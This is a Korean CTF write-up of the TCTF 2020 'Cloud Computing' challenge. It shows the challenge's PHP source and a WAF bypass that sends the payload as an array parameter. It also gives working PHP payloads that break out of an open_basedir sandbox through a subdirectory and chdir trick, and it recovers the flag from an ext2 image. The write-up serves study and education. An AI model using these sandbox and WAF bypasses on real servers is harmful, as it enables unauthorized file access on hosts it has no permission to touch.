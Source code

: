 ```yaml
---
layout: post
title: "[TCTF 2020] Cloud Computing"
author: "choiys"
comments: true
tags: [ctf, misc, php]
---
```


라온화이트햇 핵심연구팀 최용선([hcy3bkj@gmail.com](mailto:hcy3bkj@gmail.com))


# 0. 개요

2020. 06. 27 11:00 ~ 2020. 06. 29 11:00 (48h) 진행한 TCTF 2020 문제 중 misc 분야의 Cloud Computing 문제에 대한 Write Up입니다. 풀이에 사용된 취약점은 subdirectory를 이용한 php open_basedir 우회입니다.

# 1. 문제 설명

![/assets/1_.png](/assets/1_.png)

**Cloud Computing**

![/assets/2_.png](/assets/2_.png)

**Cloud Computing 문제 설명**

Cloud Computing 문제는 misc 분야의 문제로, 대회 기간 동안 총 42팀이 풀이하였습니다.

문제 설명에는 풀이에 힌트가 될만한 문구는 없습니다.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

**index.php**

문제 페이지에 접근해보면 위와 같은 소스코드를 확인할 수 있습니다.

문제 페이지에서는 사용자의 IP와 User Agent 정보를 이용하여 웹루트를 기준으로  `/sandbox/sha1(IP+UA)` 폴더를 생성합니다.

제공하는 기능은 아래와 같습니다.

---

1. ?action=pwd
    - 앞서 생성한 사용자 디렉토리($dir) 경로를 확인합니다.

        *( sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/ )*

2. ?action=upload&data=XXX
    - $dir 경로에 data 파라미터에 삽입한 내용을 index.php로 생성합니다.
    - data 파라미터를 waf 처리 후 탐지될 경우 `waf sucks...`를 출력 후 종료합니다.
    - 정상적으로 index.php를 생성할 경우 case문에 break가 없어 3. shell(코드 실행)로 이동합니다.
3. ?action=shell
    - $dir을 파라미터로 initShellEnv라는 함수를 호출합니다.
    - 이후 2에서 생성한 index.php를 include하여 실행합니다.

---

# 2. 문제 풀이

## 2-1. WAF

위 문제 설명에서 waf 함수가 있었으며, 이 함수는 공백, 특수문자 등을 필터링하는 기능을 가지고 있었습니다.

하지만 php에서는 HTTP 파라미터로 데이터를 전송할 때 `a[]=x`와 같이 전송할 시 Array로 인식을 하면서 이를 WAF에서 처리하지 않을 경우 손쉽게 우회가 가능합니다.

```php
<?php

function waf($data = '')
{
    if (strlen($data) > 35) {
        return true;
    }
    if (preg_match("/[!#%&'*+,-.: \t@^_`|A-Z]/m", $data, $match) >= 1) {
        return true;
    }
    return false;
}

function initShellEnv($dir)
{
    ini_set("open_basedir", "/var/www/html/$dir");
}
```

**function.php**

추출한 function.php를 살펴보면 Array에 대한 별다른 처리가 없는 것을 확인할 수 있습니다.

## 2-2. open_basedir

function.php의 `initShellEnv` 를 살펴보면 open_basedir을 사용자 경로로 설정하는 것을 확인할 수 있습니다.

![/assets/choi60.png](/assets/choi60.png)

**open_basedir**

open_basedir은 설정한 특정 디렉토리 및 하위 디렉토리만 접근할 수 있도록 합니다. 본 문제에서는 이 설정 때문에 상위 디렉토리에 접근할 경우 에러가 발생합니다.

```php
Warning: file_get_contents(): open_basedir restriction in effect. File(../../index.php) is not within the allowed path(s): (/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/) in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1

Warning: file_get_contents(../../index.php): failed to open stream: Operation not permitted in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1
```

payload : [http://pwnable.org:47780/?action=upload&data[]=<?php error_reporting(E_ALL); ini_set("display_errors", 1); file_get_contents('../../index.php') ?>](http://pwnable.org:47780/?action=upload&data%5B%5D=%3C?php%20error_reporting(E_ALL);%20ini_set(%22display_errors%22,%201);%20file_get_contents(%27../../index.php%27)%20?%3E)

이를 우회하는 방법은 2가지가 있습니다.

1. subdirectory
2. symbolic link

본 문제에서는 subdirectory를 이용하여 open_basedir 설정을 우회하였습니다.

```php
<?php
<?php
    error_reporting(E_ALL);
    ini_set("display_errors", 1);

    $base_dir='/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/';
    if(!file_exists($base_dir))
        mkdir($base_dir.'/choiys');
    chdir($base_dir.'/choiys');

    ini_set('open_basedir','..');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    ini_set('open_basedir','/');

    $dirs = scandir('/');
    foreach($dirs as $dir){
        echo $dir."\n";
    }

//    echo file_get_contents('/var/www/html/function.php');
?>
```

**bypass open_basedir**

---

1. open_basedir이 설정되어있는 상태에서 임의의 디렉토리를 생성합니다.
2. chdir 명령어를 통해 해당 디렉토리로 이동한 후 open_basedir을 상위 디렉토리로 변경합니다.
3. chdir 명령어를 반복 사용하여 루트 디렉토리로 이동합니다.
4. open_basedir을 루트 디렉토리(/)로 변경합니다.

---

위와 같은 프로세스를 통해 고정된 open_basedir을 루트 디렉토리로 변경할 수 있으며, 결과적으로 모든 디렉토리에 접근이 가능해집니다.

이후 scandir 함수를 사용하여 루트 디렉토리를 확인하여 flag 파일이 존재하는 것을 확인하였습니다.

```bash
➜  cloud_computing ls
agent  agent.i64  golang_loader_assist.py  legacy_flag  payload.py  res.out
➜  cloud_computing file res.out
res.out: gzip compressed data, was "flag.img", last modified: Fri Jun 26 00:54:32 2020, from Unix, original size modulo 2^32 1048064
➜  cloud_computing mv res.out res.gz
➜  cloud_computing gzip -d res.gz
➜  cloud_computing file res
res: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba249420 (large files)
```

추출한 파일을 확인해보면 gzip으로 압축되어있으며, 압축 해제 시 ext2 이미지를 얻을 수 있습니다.

![/assets/choi61.png](/assets/choi61.png)

해당 이미지를 hex에디터로 살펴보면 PNG파일이 존재하는 것을 확인할 수 있으며, 카빙하여 이미지를 추출하면 플래그를 얻을 수 있습니다.

![/assets/choi62.png](/assets/choi62.png)

FLAG : **flag{do_u_like_cloud_computing}**